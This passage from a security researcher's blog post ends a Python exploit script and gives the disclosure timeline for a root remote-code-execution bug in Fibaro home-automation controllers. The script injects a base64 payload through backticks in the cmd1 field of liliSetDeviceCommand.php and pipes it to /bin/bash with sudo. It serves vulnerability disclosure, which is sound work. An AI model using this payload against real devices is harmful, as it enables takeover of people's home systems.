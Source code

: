 tar.add("run.sh")
tar.close()

with open("root.tar.gz", "rb") as tarfile:
tar64 = base64.b64encode(tarfile.read())

wwwexec = urllib.quote_plus(base64.b64encode("echo '" + tar64 + "' | base64 -d &gt; /tmp/patch.tar.gz && sudo update --manual /tmp/patch.tar.gz"))

os.remove('run.sh')
os.remove('root.tar.gz')

headers = {
'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:51.0) Gecko/20100101 Firefox/51.0',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'X-Fibaro-Version': '2',
'X-Requested-With': 'XMLHttpRequest',
}

data = 'deviceID=1&deviceName=&deviceType=&cmd1=`echo${IFS}' + wwwexec + '|base64${IFS}-d|/bin/bash`&cmd2=&roomID=1&roomName=&sectionID=&sectionName=&lang=en'
print "[+] Popping a root shell..."

requests.post('http://' + args.rhost + '/services/liliSetDeviceCommand.php', headers=headers, data=data, verify=False)
{% endhighlight %}

_Responsible disclosure_

I&#8217;ve reported above described vulnerabilities to Fibaro. I tried to contact Fibaro multiple times and first came in contact with an employee that did not give the discovered vulnerability the priority it deserved. The employee communicated that the issue was being fixed by developers, however after 100+ days the vulnerability was still not fixed. This was frustrating, however I kept trying contacting employees of Fibaro. This is a timeline of the responsible disclosure report:

  * 22/02/2017: Reported the vulnerability.
  * 01/03/2017: Employee asked to verify whether the bug was fixed. Checked and it was not fixed.
  * 02/03/2017: Employee communicated that the vulnerability is being fixed right now.
  * 08/05/2017: Verified the newest firmware. Vulnerability still present, communicated this to the contact person. No reply.
  * 15/06/2017: Verified the newest firmware. Vulnerability still present, communicated that I will post my findings in a blog. No reply.
  * 20/06/2017: Contacted management employee of Fibaro through LinkedIn, replies directly.
  * 21/06/2017: Technical employee contacting me that an fix is being implemented.
  * 23/06/2017: Decided to sent my exploit and video to make sure everything is clear to the technical employee.
  * 28/06/2017: Vulnerability fixed, technical employee asked to verify the patch.
  * 03/07/2017: Patch received from Fibaro.
  * 04/07/2017: Verified that the patch fixes the RCE vulnerability.
  * 05/07/2017: Technical and management employees are happy with my findings and decide to send me a gift 🙂
  * 14/09/2017: Patch released.

After contacting other employees (a management employee) through LinkedIn I came in contact with an technical enthusiastic employee of Fibaro, from there the problem was picked up very adequate and the vulnerability was solved. I supported Fibaro on verifying their patch for the vulnerability, they repeated multiple times that my support was really appreciated :).
